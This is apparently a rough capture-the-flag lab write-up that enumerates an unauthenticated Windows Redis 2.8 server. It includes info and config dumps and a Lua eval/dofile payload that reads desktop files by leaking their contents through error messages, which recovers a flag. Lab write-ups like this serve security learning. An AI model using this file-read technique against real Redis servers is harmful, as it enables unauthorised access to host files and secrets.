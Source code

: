 Reference
https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
https://exploit-notes.hdks.org/exploit/database/redis-pentesting/

As we can see that smb was a rabbit hole for now so will see what we can do with redis for now

Redis 2.8.2402

nc -vn 10.10.10.10 6379
redis-cli -h nc -vn 10.10.14.47 6379
```
redis-cli -h 10.10.72.213
```
redis-cli -h 10.10.14.47

```
10.10.14.47:6379> info
# Server
redis_version:2.8.2402
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:b2a45a9622ff23b7
redis_mode:standalone
os:Windows  
arch_bits:64
multiplexing_api:winsock_IOCP
process_id:1884
run_id:18f985c54f3cbd00ed88a98752f02ced238987af
tcp_port:6379
uptime_in_seconds:2483
uptime_in_days:0
hz:10
lru_clock:286676
config_file:

# Clients
connected_clients:2
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

# Memory
used_memory:970784
used_memory_human:948.03K
used_memory_rss:937240
used_memory_peak:970784
used_memory_peak_human:948.03K
used_memory_lua:36864
mem_fragmentation_ratio:0.97
mem_allocator:dlmalloc-2.8

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1694783009
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok

# Stats
total_connections_received:6
total_commands_processed:6
instantaneous_ops_per_sec:0
total_net_input_bytes:114
total_net_output_bytes:0
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0

# Replication
role:master
connected_slaves:0
master_repl_offset:0
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.23
used_cpu_user:0.58
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Keyspace
10.10.14.47:6379> 

```

We got the same data wit the help of msfconsole

```
10.10.14.47:6379> config get *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
  7) "unixsocket"
  8) ""
  9) "logfile"
 10) ""
 11) "pidfile"
 12) "/var/run/redis.pid"
 13) "maxmemory"
 14) "0"
 15) "maxmemory-samples"
 16) "3"
 17) "timeout"
 18) "0"
 19) "tcp-keepalive"
 20) "0"
 21) "auto-aof-rewrite-percentage"
 22) "100"
 23) "auto-aof-rewrite-min-size"
 24) "67108864"
 25) "hash-max-ziplist-entries"
 26) "512"
 27) "hash-max-ziplist-value"
 28) "64"
 29) "list-max-ziplist-entries"
 30) "512"
 31) "list-max-ziplist-value"
 32) "64"
 33) "set-max-intset-entries"
 34) "512"
 35) "zset-max-ziplist-entries"
 36) "128"
 37) "zset-max-ziplist-value"
 38) "64"
 39) "hll-sparse-max-bytes"
 40) "3000"
 41) "lua-time-limit"
 42) "5000"
 43) "slowlog-log-slower-than"
 44) "10000"
 45) "latency-monitor-threshold"
 46) "0"
 47) "slowlog-max-len"
 48) "128"
 49) "port"
 50) "6379"
 51) "tcp-backlog"
 52) "511"
 53) "databases"
 54) "16"
 55) "repl-ping-slave-period"
 56) "10"
 57) "repl-timeout"
 58) "60"
 59) "repl-backlog-size"
 60) "1048576"
 61) "repl-backlog-ttl"
 62) "3600"
 63) "maxclients"
 64) "10000"
 65) "watchdog-period"
 66) "0"
 67) "slave-priority"
 68) "100"
 69) "min-slaves-to-write"
 70) "0"
 71) "min-slaves-max-lag"
 72) "10"
 73) "hz"
 74) "10"
 75) "repl-diskless-sync-delay"
 76) "5"
 77) "no-appendfsync-on-rewrite"
 78) "no"
 79) "slave-serve-stale-data"
 80) "yes"
 81) "slave-read-only"
 82) "yes"
 83) "stop-writes-on-bgsave-error"
 84) "yes"
 85) "daemonize"
 86) "no"
 87) "rdbcompression"
 88) "yes"
 89) "rdbchecksum"
 90) "yes"
 91) "activerehashing"
 92) "yes"
 93) "repl-disable-tcp-nodelay"
 94) "no"
 95) "repl-diskless-sync"
 96) "no"
 97) "aof-rewrite-incremental-fsync"
 98) "yes"
 99) "aof-load-truncated"
100) "yes"
101) "appendonly"
102) "no"
103) "dir"
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
105) "maxmemory-policy"
106) "volatile-lru"
107) "appendfsync"
108) "everysec"
109) "save"
110) "jd 3600 jd 300 jd 60"
111) "loglevel"
112) "notice"
113) "client-output-buffer-limit"
114) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
115) "unixsocketperm"
116) "0"
117) "slaveof"
118) ""
119) "notify-keyspace-events"
120) ""
121) "bind"
122) ""
10.10.14.47:6379> 

```

10.10.14.47:6379> config get databases
1) "databases"
2) "16"

![[Pasted image 20230915193527.png]]
(error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near '3eb176aee96432d5b100bc93580b291e' 

```
eval "dofile('C:\\\\Users\\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
```

```
eval "dofile('C:\\\\Users\\\\\enterprise-security\\\\Desktop\\\\system.txt')" 0
```

eval "dofile('C:\\\\Users\\\\\Administrator\\\\Desktop\\\\system.txt')" 0

```
THM{3eb176aee96432d5b100bc93580b291e}
```

